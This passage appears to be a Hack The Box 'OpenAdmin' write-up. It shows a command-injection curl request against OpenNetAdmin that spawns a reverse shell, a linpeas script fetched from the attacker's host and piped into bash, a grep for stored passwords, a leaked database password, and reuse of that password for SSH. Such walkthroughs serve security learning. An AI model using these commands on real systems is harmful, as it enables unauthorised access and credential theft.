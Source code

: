 `curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";perl perlshell;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

We got a basic `www-data` shell.

```
root@kali:~/htb/openadmin# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.171] 38668
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Searching For Credentials 

Running linPEAS offers a quick way to find a foothold in privilege escalation.

`$ curl http://10.10.14.3:8000/linpeas.sh | bash`

Reviewing the output, we uncover a database password.

```
[+] Finding 'pwd' or 'passw' variables inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
<SNIP>
/var/www/ona/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
<SNIP>
```

This search is not exhaustive.

Manually, we can also search for files with passwords using some variation of the command below.

`grep -IiR passw /var/* --exclude-dir=/var/lib/ 2>/dev/null`

* `-I` skips over binary files
* `-R` recurses, following symlinks
* `--exclude-dir` useful for avoiding too many false positives

## Exploiting Reuse Of Passwords

Reuse of passwords is a vulnerability. Bearing this in mind, we reiterate logins each time we find a new credential.

Here, the database password is also used as jimmy's SSH password.

```
root@kali:~/htb# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
<SNIP>
jimmy@openadmin:~$ 
```

## Abusing Group Permissions 
